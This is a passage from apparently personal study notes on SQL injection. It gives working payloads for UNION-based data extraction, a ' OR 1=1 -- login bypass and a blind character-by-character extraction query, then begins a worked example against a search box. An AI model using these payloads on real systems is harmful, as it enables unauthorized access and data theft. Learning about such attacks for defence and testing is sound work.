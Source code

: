             # now pull info out through the union
            http://example.com/page.asp?id=1 UNION SELECT ALL USER,2,3--
            ```

        - blind: worst case, last resort

if foo.asp?id="4+1" works then you know you the DB is running query for you

some examples use --+ to do the same thing as --<WHITESPACE> when sending the
sql injeciton in the URL - why does this work? example used %20 initially but
that was stripped by browser

## Attacks

```
' OR 1=1 --
# this nullifies the WHERE clause in the query
# this can be used if the query is
"SELECT * from users WHERE username='#{username}' AND password='#{password}'"
"SELECT * from users WHERE username='joe' AND password='bloggs'" # legit usage
"SELECT * from users WHERE username='joe' AND password='' OR 1=1 --'" # any password works


# ###############################
# in this attach we are going to use a blind sqli to get the username of the current user in the DB
# it is blind sqli so we will never actually get the username back as a result
# we first have to determine that
# 1. this point is vulnerable to sqli
# 2. some way of figuring out whether the query we sent worked or not (i.e. a true/false test). We will use this true/false test to ask the DB questions and infer the answers

' OR ascii(substr(SELECT user(), 1, 1)) > 0 #
# 1. select the username
# 2. get the first char from it
# 3. convert that char to an int
# 4. comment out the rest of the query after that
# 5. compare the it with a chosen number - this step is repeated many times
#    with differnt numbers an operators and the true/false results from the DB are
#    noted. This takes ages so is often automated in a tool
```

## A worked example

Looking at the form input on the page, try to guess the shape of the SQL
statement it might generate .e.g if it is a search box then

```sql
SELECT ? FROM ? WHERE ? LIKE '%yourquery%';
```

seems reasonable. Now try things in `yourquery` which will give you info you
should not have e.g.
